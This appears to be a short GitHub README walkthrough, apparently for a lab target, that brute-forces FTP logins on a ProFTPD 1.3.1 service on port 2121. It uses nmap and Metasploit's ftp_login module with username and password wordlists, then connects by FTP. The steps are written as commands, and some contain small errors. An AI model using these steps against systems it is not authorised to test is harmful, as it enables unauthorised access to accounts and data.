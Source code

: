 # Port-2121-ProFTPD-1.3.1
1.nmap -sV (target ip)

2.msfconsole

3.msf 6 > search ftp login
![image](https://github.com/thanawut2903/Port-2121-ProFTPD-1.3.1/assets/159118913/1c24377f-54a9-4897-a9bb-00daff1e5d3b)
4.msf 6 > use auxiliary/scanner/ftp/ftp_login

5.msf 6 > show options 
![image](https://github.com/thanawut2903/Port-2121-ProFTPD-1.3.1/assets/159118913/328d495b-676e-45c5-9b28-52860d999f25)
6.msf 6 > set RHOST (target ip)

7.msf 6 > set user_file (path user.txt)

8.msf 6 > set user_pass (path pass.txt)

9.msf 6 > set RHOST (target ip)

10. msf 6 > run
![image](https://github.com/thanawut2903/Port-2121-ProFTPD-1.3.1/assets/159118913/3c3054e1-83a5-4094-9a85-ac72f0216828)

11.ftp (target ip) 
![image](https://github.com/thanawut2903/Port-2121-ProFTPD-1.3.1/assets/159118913/22bc3151-9adb-4f78-9626-4a0ef80e4751)

Reference form : https://www.youtube.com/watch?v=4CkCt-OHcqA
